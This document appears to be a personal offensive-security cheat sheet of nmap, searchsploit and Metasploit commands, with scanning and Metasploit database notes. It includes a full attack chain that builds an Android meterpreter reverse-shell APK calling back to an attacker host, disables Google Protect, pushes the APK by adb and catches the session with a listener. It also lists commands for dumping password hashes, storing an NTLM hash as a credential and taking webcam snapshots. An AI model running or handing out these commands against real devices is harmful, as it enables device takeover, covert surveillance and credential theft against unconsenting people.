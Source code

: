 ### OffSec  
  
### Network Analysis  

nmap -sn 192.168.1.*  
nmap {ips} -A -oX hosts.xml  
searchsploit --nmap hosts.xml --json 2>&1 | tee result.json  
  
nmap -T4 -A -v 192.168.1.1 -sV -oX hosts.xml  
searchsploit --nmap hosts.xml --json | tee router_hosts.json  
  
- Wireshark deauth packages:  
wlan.fc.type_subtype == 12  

### MSF 101  

 -  https://snapcraft.io/metasploit-framework  
snap connect metasploit-framework:network-control :network-control  
 -  https://github.com/rapid7/metasploit-framework/issues/10721  
/usr/sbin/setcap cap_net_raw,cap_net_bind_service=+eip $(which ruby)  
/usr/sbin/setcap cap_net_raw,cap_net_bind_service=+eip $(which nmap)  
  
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.126 LPORT=4444 -o android_client.apk  
  
disable Google Protect  
adb connect 192.168.110.230  
adb push android_client.apk /storage/self/primary  
  
msfconsole  
set PAYLOAD multi/handler  
set LHOST 192.168.110.126  
set LPORT 4444  
exploit  
  
### MSF  

ddbb:  
systemctl start postgresql  
msfdb init  
db_status  
  
MSF Workspaces:  
workspace  
workspace lab3  
add -> workspace -a lab1  
del -> workspace -d lab1  
  
Other:  
db_nmap -A 192.168.1.1  (shitty snap integration)  
(from msf) db_nmap --unprivileged -T4 -A -Ao nmap_scans/scan_workspace.xml  
nmap -v -T4 -A -oA nmap_scans/%D.xml  
sudo chowm -R username nmap_scans/*.xml  
db_import ~/nmap_scans/*.xml  
  
List by:  
hosts (display scan)  
hosts -c address,os_flavor -S Linux (-c FILTER, -S search)  
services -c name,info -S http  
services -c name,info -p 445  
services -c port,proto,state -p 70-81  
  
Backup:  
db_export -f xml -a workspace_name  
db_import workspace_name  
services -s http -c port 172.16.194.134 -o /root/msfu/http.csv  
  
Credentials:  
creds  
(add) creds -a 172.16.194.134 -p 445 -u Administrator -P 7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::  
  
Loot i.e.:  
use post/linux/gather/hashdump  
run  
loot  (--add to save to ddbb, default just lists)  
  
Exploits:  
use  
show targets  
show payloads  
show options  
show advanced  
show evasion  
  
Meterpreter:  
webcam_list  
webcam_snap  
  
### Exploit i.e  

nmap -v -T4 -A -oA nmap_scans/%D.xml  
sudo chown -R username nmap_scans/*.xml  
db_import ~/nmap_scans/*.xml  

use mysql_login  
hosts  
hosts -S Linux -R  

### Scanning tools  

 - auxiliary/scanner/portscan/tcp
hosts -R  

 - auxiliary/scanner/portscan/syn
set INTERFACE wlan1  
set PORTS 80  
set RHOSTS 192.168.1.0/24  
set THREADS 50  

 - auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.200-210  
set THREADS 11  

 - auxiliary/scanner/ip/ipidseq  
(idle scan with zombies)  
set RHOSTS 192.168.1.0/24  
set THREADS 50  
(using zombie to scan host #109 -> #114)  
nmap -Pn -sI 192.168.1.109 192.168.1.114  

